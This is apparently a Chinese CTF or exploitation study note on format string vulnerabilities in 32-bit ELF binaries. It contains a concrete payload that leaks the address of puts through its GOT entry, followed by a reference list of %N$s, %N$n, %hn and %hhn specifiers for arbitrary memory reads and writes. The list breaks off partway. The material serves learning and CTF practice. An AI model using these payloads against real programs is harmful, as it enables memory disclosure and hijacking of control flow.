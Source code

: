 ```
0804a01c R_386_JUMP_SLOT   fread
0804a020 R_386_JUMP_SLOT   strcpy
0804a024 R_386_JUMP_SLOT   malloc
0804a028 R_386_JUMP_SLOT   puts

```
leak出puts函数的动态加载地址。
```
0x804A028=134520872
\x28\xa0\x04\x08%7$s
%8$s\x28\xa0\x04\x08
```


# 知识点

- 

- 格式化漏洞的使用技术

	1. %N$p：以16进制的格式输出位于printf第N个参数位置的值；
	2. %N$s：以printf第N个参数位置的值为地址，输出这个地址指向的字符串的内容；
	3. %N$n：以printf第N个参数位置的值为地址，将输出过的字符数量的值写入这个地址中，对于32位elf而言，%n是写入4个字节，%hn是写入2个字节，%hhn是写入一个字节；
	4. %Nc：输出N个字符，这个可以配合%N$n使用，达到任意地址任意值写入的目的。

- 格式化串参数：

	转换格式符：d、i、o、u、x用于整数，e、f、g、a用于浮点数，c用于字符，特别留意下面两个：

	1、可用%s从目标进程读取内存数据；

	2、可用%n把输出字符串长度写入任意地址；

	3、可用宽度修饰符修改输出的字符的数量；

	4、可用%hn修饰符每次写入16位数值。

- 格式化字符串参数的姿势
	32位

	读

	'%{}$x'.format(index)           // 读4个字节
	'%{}$p'.format(index)           // 同上面
	'${}$s'.format(index)
	写

	'%{}$n'.format(index)           // 解引用，写入四个字节
	'%{}$hn'.format(index)          // 解引用，写入两个字节
	'%{}$hhn'.format(index)         // 解引用，写入一个字节
	'%{}$lln'.format(index)         // 解引用，写入八个字节
	64位

	读

	'%{}$x'.format(index, num)      // 读4个字节
	'%{}$lx'.format(index, num)     // 读8个字节
	'%{}$p'.format(index)           // 读8个字节
	'${}$s'.format(index)
	写
